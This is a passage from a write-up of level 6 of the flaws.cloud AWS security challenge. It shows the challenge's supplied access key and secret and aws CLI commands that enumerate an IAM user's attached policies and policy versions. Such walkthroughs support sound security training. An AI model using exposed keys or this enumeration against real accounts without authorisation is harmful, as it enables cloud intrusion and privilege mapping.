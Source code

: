 Visit the sub directory for level 6

`http://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ddcc78ff/`


**| 6. Enumeration after AWS user keys**

Given credentials

```
Access key ID: AKIAJFQ6E7BY57Q3OBGA
Secret: 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
```

Configure it in a profile and check for user info and attached policies

`aws --profile level6 iam get-user`

`aws --profile level6 iam list-attached-user-policies --user-name Level6`

![](CLOUD/Screenshot%202019-10-20%20at%208.27.16%20PM.png)


After knowing the attached policy, can for version and what the actual policy is,

```
aws --profile level6 iam get-policy  --policy-arn arn:aws:iam::975426262029:policy/list_apigateways

aws --profile level6 iam get-policy-version  --policy-arn arn:aws:iam::975426262029:policy/list_apigateways --version-id v4
```
